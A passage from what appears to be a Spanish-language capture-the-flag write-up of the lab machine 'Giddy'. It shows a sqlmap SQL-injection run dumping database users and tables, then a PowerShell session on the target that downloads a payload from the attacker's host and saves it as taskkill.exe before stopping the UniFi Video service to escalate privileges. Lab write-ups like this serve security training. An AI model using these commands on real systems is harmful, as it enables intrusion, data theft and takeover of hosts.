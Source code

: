Lo siguiente que hice fue sacar a los usuarios, las tablas y los passwords, lo resumo con los resultados:

`sqlmap -u "http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18" --table --users --passwords`

```
[11:58:04] [INFO] fetching database users
[11:58:04] [INFO] used SQL query returns 3 entries
[11:58:05] [INFO] retrieved: 'BUILTIN\\Users'
[11:58:05] [INFO] retrieved: 'giddy\\stacy'
[11:58:05] [INFO] retrieved: 'sa'

[11:58:05] [INFO] fetching database users password hashes
[11:58:06] [WARNING] the SQL query provided does not return any output
[11:58:06] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[11:58:06] [WARNING] the SQL query provided does not return any output
[11:58:06] [INFO] fetching database users
[11:58:06] [INFO] used SQL query returns 3 entries
[11:58:06] [INFO] resumed: 'BUILTIN\\Users'
[11:58:06] [INFO] resumed: 'giddy\\stacy'
[11:58:06] [INFO] resumed: 'sa'
[11:58:19] [ERROR] unable to retrieve the password hashes for the database users (probably because the DBMS current user has no read privileges over the relevant system database table(s))

[11:58:19] [INFO] fetching database names
[11:58:20] [INFO] used SQL query returns 5 entries
[11:58:20] [INFO] retrieved: 'Injection'
[11:58:20] [INFO] retrieved: 'master'
[11:58:20] [INFO] retrieved: 'model'
[11:58:21] [INFO] retrieved: 'msdb'
[11:58:21] [INFO] retrieved: 'tempdb'
[11:58:21] [INFO] fetching tables for databases: Injection, master, model, msdb, tempdb
Database: Injection
[13 tables]
+----------------------------------------------------------+
| Applications                                             |
| CreditCard                                               |
| Memberships                                              |
| Product                                                  |
| ProductCategory                                          |
| ProductSubcategory                                       |
| Profiles                                                 |
| Roles                                                    |
| Users                                                    |
| UsersInRoles                                             |
| UsersOpenAuthAccounts                                    |
| UsersOpenAuthData                                        |
| __MigrationHistory                                       |
+----------------------------------------------------------+

Database: master
[488 tables]

Database: msdb
[23 tables]
+----------------------------------------------------------+
| autoadmin_backup_configuration_summary                   |
| backupfile                                               |
| backupmediafamily                                        |
| backupmediaset                                           |
| backupset                                                |
| dm_hadr_automatic_seeding_history                        |
| logmarkhistory                                           |
```

[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService